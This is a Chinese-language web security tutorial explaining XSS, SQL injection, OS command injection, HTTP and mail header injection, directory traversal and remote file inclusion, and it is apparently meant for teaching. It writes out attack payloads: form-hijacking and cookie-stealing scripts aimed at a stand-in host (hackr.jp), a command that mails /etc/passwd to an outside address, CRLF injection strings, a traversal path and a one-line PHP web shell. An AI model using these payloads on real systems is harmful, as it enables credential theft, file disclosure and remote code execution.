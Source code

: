 实施 Web 应用的安全对策可大致分为以下两部分：

- 客户端的验证、
- Web 应用端（服务器端）的验证
  - 输入值验证
  - 输出值转义

![img](./assets/06.png)
> 图：验证数据的几个地方

多数情况下采用 JavaScript 在客户端验证数据。可是在客户端允许篡改数据或关闭 JavaScript，不适合将 JavaScript 验证作为安全的防范对策。
保留客户端验证只是为了尽早地辨识输入错误，起到提高 UI 体验的作用。

Web 应用端的输入值验证按 Web 应用内的处理则有可能被误认为是具有攻击性意义的代码。
输入值验证通常是指检查是否是符合系统业务逻辑的数值或检查字符编码等预防对策。

从数据库或文件系统、HTML、邮件等输出 Web 应用处理的数据之际，针对输出做值转义处理是一项至关重要的安全策略。
当输出值转义不完全时，会因触发攻击者传入的攻击代码，而给输出对象带来损害。










# 跨站脚本攻击（XSS）

跨站脚本攻击（Cross-site scripting，XSS）是指通过存在安全漏洞的 Web 网站注册用户的浏览器内运行非法的 HTML 标签或 JavaScript 进行的一种攻击。
动态创建的 HTML 部分有可能隐藏着安全漏洞。就这样，攻击者编写脚本设下陷阱，用户在自己的浏览器上运行时，一不小心就会受到被动攻击。

跨站脚本攻击有可能造成以下影响：

- 利用虚假输入表单骗取用户个人信息。 
- 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求。 
- 显示伪造的文章或图片。



## 跨站脚本攻击案例

- **在动态生成 HTML 处发生**

  下面以编辑个人信息页面为例讲解跨站脚本攻击。下方界面显示了用户输入的个人信息内容。

  ![img](./assets/07.png)
  > 图：跨站脚本攻击的案例

  确认界面按原样显示在编辑界面输入的字符串。此处输入带有山口一郎这样的 HTML 标签的字符串。

  ![img](./assets/08.png)
  > 图：按照输入内容原样显示的机制

  此时的确认界面上，浏览器会把用户输入的 `<s>` 解析成 HTML 标签，然后显示删除线。
  删除线显示出来并不会造成太大的不利后果，但如果换成使用 script 标签将会如何呢。

- **XSS 是攻击者利用预先设置的陷阱触发的被动攻击**

  跨站脚本攻击属于被动攻击模式，因此攻击者会事先布置好用于攻击的陷阱。

  下图网站通过地址栏中 URI 的查询字段指定 ID，即相当于在表单内自动填写字符串的功能。而就在这个地方，隐藏着可执行跨站脚本攻击的漏洞。

  ![img](./assets/09.png)

  充分熟知此处漏洞特点的攻击者，于是就创建了下面这段嵌入恶意代码的 URL。并隐藏植入事先准备好的欺诈邮件中或 Web 页面内，诱使用户去点击该 URL。

  ```js
  http://example.jp/login?ID="><script>var+f=document.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method==>"get";</script><span+s="
  ```

  浏览器打开该 URI 后，直观感觉没有发生任何变化，但设置好的脚本却偷偷开始运行了。
  当用户在表单内输入 ID 和密码之后，就会直接发送到攻击者的网站（也就是 hackr.jp），导致个人登录信息被窃取。

  ![img](./assets/10.png)
  
  > 对 http://example.jp/login?ID=yama 请求时对应的 HTML 源代码（摘录）

  ```html
  <div class="logo">
    <img src="/img/logo.gif" alt="E!拍卖会" />
  </div>
  <form action="http://example.jp/login" method="post" id="login">
  <div class="input_id">
    ID <input type="text" name="ID" value="yama" />
  </div>
  ```

  > http://example.jp/login?ID="><script>var+f=document.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method="get";</script><span+s=" 对请求时对应的HTML源代码（摘录）

  ```html
  <div class="logo">
    <img src="/img/logo.gif" alt="E!拍卖会 />
  </div>
  <form action="http://example.jp/login" method="post" id="login">
  <div class="input_id">
    ID <input type="text" name="ID" value=""><script>var f=document.getElementById("login");f.action="http://hackr.jp/pwget";f.method="get";</script><span s="" />
  </div>
  ```



## 对用户 Cookie 的窃取攻击

除了在表单中设下圈套之外，下面那种恶意构造的脚本同样能够以跨站脚本攻击的方式，窃取到用户的 Cookie 信息。

```html
<script src=http://hackr.jp/xss.js></script>
```

该脚本内指定的 http://hackr.jp/xss.js 文件。即下面这段采用 JavaScript 编写的代码。

```js
var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">");
```

在存在可跨站脚本攻击安全漏洞的 Web 应用上执行上面这段 JavaScript 程序，即可访问到该 Web 应用所处域名下的 Cookie 信息。
然后这些信息会发送至攻击者的 Web 网站 http://hackr.jp/ ，记录在他的登录日志中。结果，攻击者就这样窃取到用户的 Cookie 信息了。

![img](./assets/11.png)
> 图：使用 XSS 攻击夺取 Cookie 信息










# SQL 注入攻击



## 会执行非法 SQL 的 SQL 注入攻击

SQL 注入（SQL Injection）**是指针对 Web 应用使用的数据库，通过运行非法的 SQL 而产生的攻击**。
该安全隐患有可能引发极大的威胁，有时会直接导致个人信息及机密信息的泄露。

Web 应用通常都会用到数据库，当需要对数据库表内的数据进行检索或添加、删除等操作时，会使用 SQL 语句连接数据库进行特定的操作。
如果在调用 SQL 语句的方式上存在疏漏，就有可能执行被恶意注入非法 SQL 语句。

SQL 注入攻击有可能会造成以下等影响：

- 非法查看或篡改数据库内的数据
- 规避认证
- 执行和数据库服务器业务关联的程序等



## 何为 SQL

SQL（Structured Query Language，**结构化查询语言**）是一种用于管理关系数据库的查询语言。

SQL 是用来操作关系型数据库管理系统（Relational DataBase Management System, RDBMS）的数据库语言，可进行操作数据或定义数据等。

RDBMS 中有名的数据库有 Oracle Database、Microsoft SQL Server、IBM DB2、MySQL 和 PostgreSQL 等。这些数据库系统都可以把 SQL 作为数据库语言使用。

使用数据库的 Web 应用，通过某种方法将 SQL 语句传给 RDBMS，再把 RDBMS 返回的结果灵活地使用在 Web 应用中。

- SQL 语句示例

```sql
SELECT title,text FROM newsTbl WHERE id=123
```



## SQL 查询案例

下面以某个购物网站的搜索功能为例，讲解 SQL 注入攻击。通过该功能，我们可以将某作者的名字作为搜索关键字，查找该作者的所有著作。

![img](./assets/12.png)
> 图：搜索作者

正常处理的操作示例

下图是将“上野宣”作为关键字的搜索结果：

![img](./assets/13.png)
> 图：正常处理操作的示例

URL 的查询字段已指定 q=上野宣，这个值由 Web 应用传入到 SQL 语句中，构成下方的 SQL 语句。

```sql
SELECT * FROM bookTbl WHERE author = "上野宣" and flag = 1;
```
> 该 SQL 语句表示：从 bookTbl 表中，显示满足 author= 上野宣 and flag=1（可售）所在行的数据。

> 数据库内的 bookTbl 表记录着该购物网站的所有书籍信息。通过 SQL 语句，将满足作者名（author）上野宣并且 flag 为 1 双重条件的条目取出，最后作为搜索结果显示出来。

![img](./assets/14.png)
> 图：SQL 语句执行



## SQL 注入攻击的操作示例

把刚才指定查询字段的上野宣改写成“上野宣’--”。

![img](./assets/15.png)
> 图：SQL 注入攻击的操作示例

构成的 SQL 语句就变成“从数据库的 bookTbl 表中，显示满足 author=上野宣 条件所在行的数据”，如下所示：

```sql
SELECT * FROM bookTbl WHERE author ="上野宣"--'and flag=1;
```

SQL 语句中的 `--` 之后全视为注释。即 and flag=1 这个条件被自动忽略了。

![img](./assets/16.png)

结果跟 flag 的设定值无关，只取出满足 author=“上野宣” 条件所在行的数据，这样连那些尚未出版的图书也一并显示出来了。

![img](./assets/17.png)
> 图：SQL 注入攻击的搜索结果



## SQL 注入攻击破坏 SQL 语句结构的案例

SQL 注入是攻击者将 SQL 语句改变成开发者意想不到的形式以达到破坏结构的攻击。

比如，在之前的攻击案例中，就会把 author 的字面值（程序中使用的常量）"上野宣’- -"的字符串赋值给 $q。

![img](./assets/18.png)
> 图：SQL 注入攻击破坏 SQL 语句结构的案例

上图中颜色标记的字符串最开始的单引号 `'` 表示会将 author 的字面值括起来，以到达第二个单引号后作为结束。
因此，author 的字面值就成了上野宣，而后面的 `--` 则不再属于 author 字面值，会被解析成其他的句法。

本案例中的问题仅仅是把未出版书籍的条目也一同显示出来了。但实际发生 SQL 注入攻击时，
很有可能会导致用户信息或结算内容等其他数据表的非法浏览及篡改，从而使用户遭受不同程度的损失。










# OS 命令注入攻击

OS 命令注入攻击（OS Command Injection）**是指通过 Web 应用，执行非法的操作系统命令而产生的攻击**。
只要在能调用 Shell 函数的地方就有存在被攻击的风险。

可以从 Web 应用中通过 Shell 来调用操作系统命令。倘若调用 Shell 时存在疏漏，就可以执行插入的非法 OS 命令。

OS 命令注入攻击可以向 Shell 发送命令，让 Windows 或 Linux 操作系统的命令行启动程序。也就是说，通过 OS 注入攻击可执行 OS 上安装着的各种程序。

- OS 注入攻击案例

下面以咨询表单的发送功能为例，讲解 OS 注入攻击。该功能可将用户的咨询邮件按已填写的对方邮箱地址发送过去。

![img](./assets/19.png)
> 图：咨询表单的邮件发送功能

下面摘选处理该表单内容的一部分核心代码。

```Perl
my $adr = $q->param('mailaddress');
open(MAIL,"¦ /usr/sbin/sendmail $adr");
print MAIL "From:info@example.com\n";
```

程序中的 open 函数会调用 sendmail 命令发送邮件，而指定的邮件发送地址即 $adr 的值。

攻击者将下面的值指定作为邮件地址：

```shell
; cat /etc/passwd | mail hack@example.jp
```

程序接收该值，构成以下的命令组合：

```shell
/usr/sbin/sendmail ; cat /etc/passwd | mail hack@example.jp
```

攻击者的输入值中含有分号 `;`。这个符号在 OS 命令中，会被解析为分隔多个执行命令的标记。

可见，sendmail 命令执行被分隔后，接下去就会执行 cat/etc/passwd | mail hack@example.jp 这样的命令了。
结果，含有 Linux 账户信息 /etc/passwd 的文件，就以邮件形式发送给了 hack@example.jp。










# HTTP 首部注入攻击

HTTP 首部注入攻击（HTTP Header Injection）是指攻击者通过在响应首部字段内插入换行，添加任意响应首部或主体的一种攻击。属于被动攻击模式。

向首部主体内添加内容的攻击称为 HTTP 响应截断攻击（HTTP Response Splitting Attack）。

如下所示，Web 应用有时会把从外部接收到的数值，赋给响应首部字段 Location 和 Set-Cookie。

```http
Location: http://www.example.com/a.cgi?q=12345
Set-Cookie: UID=12345

*12345就是插入值
```

HTTP 首部注入可能像这样，通过在某些响应首部字段需要处理输出值的地方，插入换行发动攻击。

HTTP 首部注入攻击有可能会造成以下一些影响：

> - 设置任何 Cookie 信息
> - 重定向至任意 URL
> - 显示任意的主体（HTTP 响应截断攻击）



## HTTP 首部注入攻击案例

下面我们以选定某个类别后即可跳转至各类别对应页面的功能为例，讲解 HTTP 首部注入攻击。
该功能为每个类别都设定了一个类别 ID 值，一旦选定某类别，就会将该 ID 值反映在响应内的 Location 首部字段内，
形如 `Location: http://example.com/?cat=101 `，令浏览器发生重定向跳转。

![img](./assets/20.png)
> 图：HTTP 首部注入攻击案例

攻击者以下面的内容替代之前的类别 ID 后发送请求。

```http
101%0D%0ASet-Cookie:+SID=123456789
```

其中，%0D%0A 代表 HTTP 报文中的换行符，紧接着的是可强制将攻击者网站（http://hackr.jp/) 的会话 ID 设置成 SID=123456789 的 Set-Cookie 首部字段。

发送该请求之后，假设结果返回以下响应：

```http
Location: http://example.com/?cat=101（%0D%0A：换行符）
Set-Cookie: SID=123456789
```

此刻，首部字段 Set-Cookie 已生效，因此攻击者可指定修改任意的 Cookie 信息。
通过和会话固定攻击（攻击者可使用指定的会话 ID）攻击组合，攻击者可伪装成用户。

攻击者输入的 %0D%0A，原本应该属于首部字段 Location 的查询值部分，但经过解析后，%0D%0A 变成了换行符，结果插入了新的首部字段。

这样一来，攻击者可在响应中插入任意的首部字段。



## HTTP 响应截断攻击

HTTP 响应截断攻击是用在 HTTP 首部注入的一种攻击。攻击顺序相同，但是要将两个 %0D%0A%0D%0A 并排插入字符串后发送。
**利用这两个连续的换行就可作出 HTTP 首部与主体分隔所需的空行了，这样就能显示伪造的主体，达到攻击目的**。这样的攻击叫做 HTTP 响应截断攻击。

```xml
%0D%0A%0D%0A<HTML><HEAD><TITLE>之后，想要显示的网页内容 <!--
```

在可能进行 HTTP 首部注入的环节，通过发送上面的字符串，返回结果得到以下这种响应。

```http
Set-Cookie:UID=（%0D%0A：换行符）
（%0D%0A：换行符）
<HTML><HEAD><TITLE>之后，想要显示的网页内容<!--（原来页面对应的首部字段和主体部分全视为注释）
```

利用这个攻击，已触发陷阱的用户浏览器会显示伪造的 Web 页面，再让用户输入自己的个人信息等，可达到和跨站脚本攻击相同的效果。

另外，滥用 HTTP/1.1 中汇集多响应返回功能，会导致缓存服务器对任意内容进行缓存操作。这种攻击称为缓存污染。
使用该缓存服务器的用户，在浏览遭受攻击的网站时，会不断地浏览被替换掉的 Web 网页。










# 邮件首部注入攻击

邮件首部注入（Mail Header Injection）是指 Web 应用中的邮件发送功能，攻击者通过向邮件首部 To 或 Subject 内任意添加非法内容发起的攻击。
利用存在安全漏洞的 Web 网站，可对任意邮件地址发送广告邮件或病毒邮件。

**邮件首部注入攻击案例**

![img](./assets/21.png)
> 图：邮件首部注入攻击案例

攻击者将以下数据作为邮件地址发起请求：

```shell
bob@hackr.jp%0D%0ABcc:user@example.com
```

`%0D%0A` **在邮件报文中代表换行符**。一旦咨询表单所在的 Web 应用接收了这个换行符，就可能实现对 Bcc 邮件地址的追加发送，而这原本是无法指定的。

另外像下面一样，使用两个连续的换行符就有可能篡改邮件文本内容并发送。

```shell
bob@hackr.jp%0D%0A%0D%0ATest Message
```

再以相同的方法，就有可能改写 To 和 Subject 等任意邮件首部，或向文本添加附件等动作。










# 目录遍历攻击

目录遍历（Directory Traversal）攻击是指对本无意公开的文件目录，通过非法截断其目录路径后，达成访问目的的一种攻击。
这种攻击有时也称为路径遍历（Path Traversal）攻击。

通过 Web 应用对文件处理操作时，在由外部指定文件名的处理存在疏漏的情况下，用户可使用 `.../` 等相对路径定位到 /etc/passed 等绝对路径上，
因此服务器上任意的文件或文件目录皆有可能被访问到。这样一来，就有可能非法浏览、篡改或删除 Web 服务器上的文件。

固然存在输出值转义的问题，但更应该关闭指定对任意文件名的访问权限。

**目录遍历攻击案例**

下面以显示读取文件功能为例，讲解目录遍历攻击。该功能通过以下查询字段，指定某个文件名。然后从 /www/log/ 文件目录下读取这个指定的文件。

```http
http://example.com/read.php?log=0401.log
```

攻击者设置如下查询字段后发出请求：

```http
http://example.com/read.php?log=../../etc/passwd
```

查询字段为了读取攻击者盯上的 /etc/passwd 文件，会从 /www/log/ 目录开始定位相对路径。
如果这份 read.php 脚本接受对指定目录的访问请求处理，那原本不公开的文件就存在可被访问的风险。

![img](./assets/22.png)
> 图：目录遍历攻击案例










# 远程文件包含漏洞

远程文件包含漏洞（Remote File Inclusion）是指当部分脚本内容需要从其他文件读入时，
攻击者利用指定外部服务器的 URL 充当依赖文件，让脚本读取之后，就可运行任意脚本的一种攻击。

这主要是 PHP 存在的安全漏洞，对 PHP 的 include 或 require 来说，这是一种可通过设定，指定外部服务器的 URL 作为文件名的功能。
但是，该功能太危险，PHP 5.2.0 之后默认设定此功能无效。

固然存在输出值转义的问题，但更应控制对任意文件名的指定。

**远程文件包含漏洞的攻击案例**

下面以 include 读入由查询字段指定文件的功能为例，讲解远程文件包含漏洞。
该功能可通过以下查询字段形式指定文件名，并在脚本内的 include 语句处读入这个指定文件。

```http
http://example.com/foo.php?mod=news.php
```

对应脚本的源代码如下所示：
> http://example.com/foo.php 的源代码（部分摘录）

```php
$modname = $_GET['mod'];
include($modname);
```

攻击者指定如同下面形式的 URL 发出请求：

```http
http://example.com/foo.php?mod=http://hackr.jp/cmd.php&cmd=ls
```

攻击者已事先在外部服务器上准备了以下这段脚本：
> http://hackr.jp/cmd.php 的源代码

```php
<?system($_GET['cmd']) ?>
```

假设 Web 服务器（example.com）的 include 可以引入外部服务器的 URL，
那就会读入攻击者在外部服务器上事先准备的 URL（http://hackr.jp/cmd.php)。
结果，通过 system 函数就能在 Web 服务器（example.com）上执行查询字段指定的 OS 命令了。

![img](./assets/23.png)
> 图：远程文件包含漏洞的攻击案例

在以上攻击案例中，执行了可显示 Web 服务器（example.com）上文件及目录信息的 ls 命令。
